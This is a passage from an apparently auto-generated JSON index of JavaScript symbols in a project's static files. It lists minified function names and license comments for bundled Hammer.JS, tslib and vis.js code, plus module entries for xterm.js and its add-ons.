Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "mw"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "kw"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Ew"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Ow"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "qw"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "e"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "C"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "ik"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "nk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "sk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "dk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "lk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "fk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "yk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "bk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "kk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Ek"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Tk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Nk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Pk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Bk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Zk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Fk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Lk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Vk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Qk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Hk"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "dx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Tx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Px"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Bx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Zx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Fx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Lx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "Vx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "qx"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "gE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "t"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "CE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "l"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "f"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "nE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "dE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "lE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "o"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "uE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "vE"}, {"doc": "! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license", "kind": "function", "line": 33, "name": "A"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "lO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "cO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "fO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "l"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "t"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "bO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "a"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "ZO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "u"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "LO"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "function", "line": 48, "name": "e"}, {"doc": "@license vis.js is dual licensed under both  1. The Apache 2.0 License http://www.apache.org/licenses/LICENSE-2.0  and  2. The MIT License http://opensource.org/licenses/MIT  vis.js may be distributed under either license.", "kind": "class", "line": 26, "name": "as"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "class", "line": 48, "name": "did"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "class", "line": 48, "name": "did"}, {"doc": "! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED \"AS IS\" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. *****************************************************************************", "kind": "class", "line": 48, "name": "as"}]}, {"id": "static/js/xterm-addon-fit-0.7.0.js", "kind": "module", "label": "xterm-addon-fit-0.7.0.js", "language": "js", "sha256": "106ee7bff8bda210", "symbol_count": 0, "symbols": []}, {"id": "static/js/xterm-addon-web-links-0.5.0.js", "kind": "module", "label": "xterm-addon-web-links-0.5.0.js", "language": "js", "sha256": "b2e684cc855dc09e", "symbol_count": 4, "symbols": [{"kind": "function", "line": 1, "name": "i"}, {"kind": "function", "line": 1, "name": "i"}, {"kind": "function", "line": 1, "name": "r"}, {"kind": "function", "line": 1, "name": "a"}]}, {"id": "static/js/xterm.js", "kind": "module", "label": "xterm.js", "language": "js", "sha256": "618289587b54cb89", "symbol_count": 62, "symbols": [{"kind": "function", "line": 1, "name": "r"}, {"kind": "function", "line": 1, "name": "i"}, {"kind": "function", "line": 1, "name": "i"}, {"kind": "function", "line": 1, "name": "t"}, {"kind": "function", "line": 1, "name": "e"}, {"kind": "function", "line": 1, "name": "t"}, {"kind": "function", "line": 1, "name": "e"}, {"kind": "function", "line": 1, "name": "s"}, {"kind": "function", "line": 1, "name": "e"}, {"kind": "function", "line": 1, "name": "i"}, {"kind": "function", "line": 1, "name": "s"}, {"kind": "function", "line": 1, "name": "i"}, {"kind": "function", "line": 1, "name": "i"}, {"kind": "function", "line": 1, "name": "r"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "P"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "i"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "c"}, {"kind": "class", "line": 1, "name": "l"}, {"kind": "class", "line": 1, "name": "d"}, {"kind": "class", "line": 1, "name": "c"}, {"kind": "class", "line": 1, "name": "e"}, {"kind": "class", "line": 1, "name": "o"}, {"kind": "class", "line": 1, "name": "a"}, {"kind": "class", "line": 1, "name": "r"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": 